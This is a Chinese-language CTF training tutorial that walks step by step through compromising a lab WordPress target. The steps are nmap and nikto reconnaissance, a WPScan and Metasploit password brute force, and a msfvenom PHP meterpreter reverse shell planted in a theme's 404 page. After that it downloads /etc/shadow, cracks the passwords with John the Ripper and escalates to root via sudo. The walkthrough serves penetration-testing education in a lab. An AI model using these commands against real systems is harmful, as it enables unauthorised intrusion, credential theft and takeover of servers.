# CTF最强战队蓝莲花内部培训教程：P18：19.WEB安全暴力破解 💻

在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过对Web应用程序的用户名和密码进行暴力破解，最终获得正确的凭据。利用这些凭据登录系统，获取Shell访问权限，并逐步提升权限至root，最终取得目标Flag值。

## 暴力破解概述 🔍

暴力破解的基本思想可以概括为**穷举法**。穷举法的基本思想是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。穷举法也称枚举法，它是暴力破解的基本思想。

在进行Web暴力破解时，我们尝试所有可能性以获取正确结果。如果未能获取结果，则可以扩大破解范围，最终取得我们想要的具体值。

## 实验环境搭建 🛠️

本次实验环境如下：
*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶场机器**：Ubuntu Linux，IP地址为 `192.168.253.20`。

我们的目标是获取靶场机器上的Flag值，并取得其root权限。

## 信息收集与探测 🗺️

上一节我们介绍了实验环境，本节中我们来看看如何对靶场进行信息探测。我们目前只知道靶场的IP地址，需要探测其开放的服务及版本。

以下是使用Nmap进行服务探测的命令：
```bash
nmap -sV 192.168.253.20
```
此命令将对靶场IP地址进行服务版本探测，结果将返回到标准输出。

除了服务信息，我们还可以探测更全面的信息，包括路由和操作系统信息。

以下是使用Nmap进行全信息探测的命令：
```bash
nmap -T4 -A -v 192.168.253.20
```
参数说明：
*   `-T4`：使用Nmap最大线程数进行扫描，即以最快速度探测。
*   `-A`：启用Nmap的所有模块进行探测。
*   `-v`：在探测过程中，将探测和响应的数据包信息返回到标准输出。



探测结果显示靶场开放了80端口，运行着HTTP服务。因此，有必要进一步探索HTTP服务下的敏感信息。



接下来，我们使用Nikto对靶场的HTTP服务进行敏感信息探测。

以下是使用Nikto进行Web应用扫描的命令：
```bash
nikto -host http://192.168.253.20
```
**注意**：如果端口是80，可以省略端口号；若非80端口，则必须加上 `:端口号`。

## 信息分析与利用 🧐

我们已经完成了主机信息探测和Nikto扫描。现在需要对扫描结果进行分析，挖掘可利用的信息，并逐步渗透以获取机器权限。

对于开放HTTP服务的靶机，如果扫描到敏感页面，可以使用浏览器打开查看并寻找可利用点。





分析Nikto扫描结果，我们发现了一些关键信息，例如Apache版本、操作系统为Ubuntu，以及一个名为 `secret` 的敏感目录。

访问该 `secret` 目录，我们发现了一个隐藏的WordPress博客站点。我们需要访问其登录界面。有时直接访问链接可能失败，可以通过编辑本地的 `hosts` 文件，使主机名正确解析到靶机IP。

编辑 `hosts` 文件的命令如下：
```bash
gedit /etc/hosts
```
在文件中添加一行：
```
192.168.253.20    your-target-domain.com
```

## WordPress站点暴力破解 🔑

对于发现的WordPress站点，我们可以使用工具进行暴力破解，尝试找出弱口令。

首先，使用 `wpscan` 枚举站点存在的用户名。

以下是使用WPScan枚举用户的命令示例：
```bash
wpscan --url http://your-target-domain.com/secret --enumerate u
```
扫描结果显示存在用户 `admin`。

接下来，我们使用Metasploit框架对 `admin` 用户进行密码暴力破解。

1.  启动Metasploit：`msfconsole`
2.  使用WordPress登录扫描模块：`use auxiliary/scanner/http/wordpress_login_enum`
3.  设置必要参数：
    ```bash
    set RHOSTS 192.168.253.20
    set USERNAME admin
    set PASS_FILE /usr/share/wordlists/dirb/common.txt
    set TARGETURI /secret
    ```
4.  运行模块：`run`

破解成功后，我们得到了用户名 `admin` 和密码 `admin`。使用这些凭据成功登录WordPress后台。

## 获取WebShell与提权 ⚡

成功进入后台后，下一步是上传WebShell以获取服务器的Shell访问权限。





首先，使用Msfvenom生成一个PHP反向连接WebShell。







生成WebShell的命令如下：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
将生成的PHP代码复制，在WordPress后台编辑主题的404模板页面，将代码粘贴并保存。



接着，在Metasploit中设置监听以接收反向连接。



1.  使用处理模块：`use exploit/multi/handler`
2.  设置Payload：`set payload php/meterpreter/reverse_tcp`
3.  设置监听地址和端口：
    ```bash
    set LHOST 192.168.253.12
    set LPORT 4444
    ```
4.  开始监听：`run`



最后，通过浏览器访问包含WebShell的404页面URL，触发连接。Metasploit成功获得一个Meterpreter Shell。

通过Shell，我们执行 `sysinfo` 和 `id` 命令，发现当前用户是 `www-data`，并非root权限。







## 权限提升与获取Flag 🏁



为了获取root权限，我们需要进行提权操作。本次实验通过破解系统用户密码进行提权。





1.  从靶机下载 `/etc/passwd` 和 `/etc/shadow` 文件到攻击机。
    ```bash
    download /etc/passwd
    download /etc/shadow
    ```
2.  使用 `unshadow` 工具合并两个文件，生成John the Ripper可识别的破解文件。
    ```bash
    unshadow passwd shadow > crack.db
    ```
3.  使用John the Ripper破解密码。
    ```bash
    john crack.db
    ```
4.  破解成功后，获得了用户 `marin.spike` 及其密码。
5.  在获得的Shell中，切换到 `marin.spike` 用户，并尝试提权至root。
    ```bash
    su - marin.spike
    # 输入破解得到的密码
    sudo bash
    # 再次输入密码
    ```
6.  成功提权至root后，在根目录下寻找并读取Flag文件。
    ```bash
    cd /root
    cat flag
    ```



## 总结 📝



本节课我们一起学习了WEB安全中的暴力破解完整流程。



1.  **信息收集**：使用Nmap和Nikto对目标进行探测，发现Web服务及敏感路径。
2.  **暴力破解**：针对发现的WordPress站点，使用WPScan枚举用户，再利用Metasploit进行密码爆破，获得后台访问权限。
3.  **获取初始访问权限**：通过后台漏洞上传WebShell，利用Metasploit获得反向连接Shell。
4.  **权限提升**：下载系统的密码文件，使用John the Ripper破解本地用户密码，通过切换用户和sudo命令提权至root。
5.  **达成目标**：获取root权限后，找到并读取最终的Flag值。

